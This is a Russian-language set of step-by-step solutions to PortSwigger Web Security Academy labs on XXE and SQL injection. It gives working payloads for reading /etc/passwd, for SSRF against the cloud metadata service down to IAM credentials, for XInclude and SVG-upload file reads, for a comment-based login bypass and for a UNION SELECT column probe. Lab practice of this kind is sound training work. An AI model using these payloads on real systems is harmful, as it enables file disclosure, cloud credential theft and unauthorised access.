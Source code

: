 # XXE

1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

+ 1)зайти на сайт, 

+ 2)выбрать продукт, 

+ 3)нажать *Check stock*, 

+ 4)перехватить Post запрос через BURP 

+ 5)после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

+ 6)заменить product id число на `&res;` 

+ 7)после этого просто отправить запрос и в ответе придёт /etc/passwd

____

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

+ 5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

+ 6)заменить product id на `&res;` отправить запрос, 

+ 7)в ответе придет `latest` - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

+ n+1)в итоге получаем 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

6)в ответ придёт /etc/passwd


____


4.https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

+ 1)зайти на сайт

+ 2)выбрать статью 

+ 3)нажать отправить комментарий(заполнить все поля предварительно) 

+ 4)перехватить запрос через Burp

+ 5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)

____

# SQL

1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

+ 1)в графе login ввести administrator'--

____

2. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

+ 1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

+ 2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

+ 3)второй столбец оказался верным - выводится результат
